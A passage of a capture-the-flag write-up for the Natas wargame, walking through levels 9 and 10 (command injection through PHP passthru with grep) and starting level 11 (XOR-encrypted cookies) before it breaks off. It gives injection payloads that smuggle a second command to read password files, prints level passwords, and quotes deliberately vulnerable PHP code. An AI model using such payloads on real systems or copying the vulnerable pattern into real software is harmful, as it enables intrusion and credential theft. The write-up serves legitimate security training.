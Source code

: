 The code takes in a keyword as an input and uses passthru to perform a system command to grep through a file for the specified keyword. Without sanitation, a command execution vulnerability exists in this code.
So let's use `; cat /etc/natas_webpass/natas10 #` to search for the password. Note: `;` denotes a new command and `#` comments out the rest of the command.

```
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

# Level 10

This challenge is similar to Level 9 but with a twist - there is a filter on certain characters.
Upon clicking on the view source code, there is a php code within:

```
Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>
```

The preg_match function is use to filter out the characters `;|&`. So let's use this command instead `.* /etc/natas_webpass/natas11 #`. Note: This command indicates that we want to look for everything in `/etc/natas_webpass/natas11` and then comment out the rest of the command.

```
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

# Level 11

In this webpage, you can set the background color of the webpage. It also mentions that the cookies are protected with XOR encryption.
Upon clicking on the view source code, there is a php code within:

```
<?

$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
```